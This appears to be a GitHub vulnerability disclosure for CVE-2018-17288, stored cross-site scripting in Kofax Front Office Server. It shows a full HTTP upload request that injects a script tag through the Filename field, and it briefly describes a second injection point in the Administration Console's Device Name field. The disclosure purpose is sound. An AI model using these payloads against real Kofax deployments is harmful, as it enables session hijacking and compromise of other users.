






# CVE-2018-17288-XSS-Kofax
Kofax Front Office Server version 4.1.1.11.0.5212 (both Thin Client and Administration Console) suffers from multiple authenticated stored XSS vulnerabilities via the (1) "Filename" field in /Kofax/KFS/ThinClient/document/upload/ - (Thin Client) or (2) "DeviceName" field in /Kofax/KFS/Admin/DeviceService/device/ - (Administration Console)


### XSS in Kofax Front Office Server Thin Client:


<br />

```
POST /Kofax/KFS/ThinClient/document/upload/ HTTP/1.1
Host: xxxxxx.xxxxxxx.net
Connection: close
Content-Length: 678
Origin: https://***.*******.***
X-Requested-With: ShockwaveFlash/29.0.0.140
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.170 Safari/537.36 OPR/53.0.2907.68
Content-Type: multipart/form-data; boundary=----------cH2Ef1GI3gL6Ij5gL6GI3Ef1ae0GI3
Accept: */*
Referer: https://***.*******.net/Kofax/KFS/ThinClient/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: KFS_AUTH_THINCLIENT=06f35c28-d832-4072-9ba2-3e1246b12b4d 
------------cH2Ef1GI3gL6Ij5gL6GI3Ef1ae0GI3 
Content-Disposition: form-data; name="Filename"
<script>alert(1234)</script>.txt
------------cH2Ef1GI3gL6Ij5gL6GI3Ef1ae0GI3 
Content-Disposition: form-data; name="pageIndex"
1
------------cH2Ef1GI3gL6Ij5gL6GI3Ef1ae0GI3 
Content-Disposition: form-data; name="sessionID"
06f35c28-d832-4072-9ba2-3e1246b12b4d
------------cH2Ef1GI3gL6Ij5gL6GI3Ef1ae0GI3 
Content-Disposition: form-data; name="Filedata"; filename="test.txt" 
<--SNIP-->
```

<br />


<br />
<br />

### XSS in Kofax Front Office Server Administration Console:

<br />
Add a new device with a malitious code in “Device Name” field:


<br />
Deploy the device:


<br />




<br />




<br />
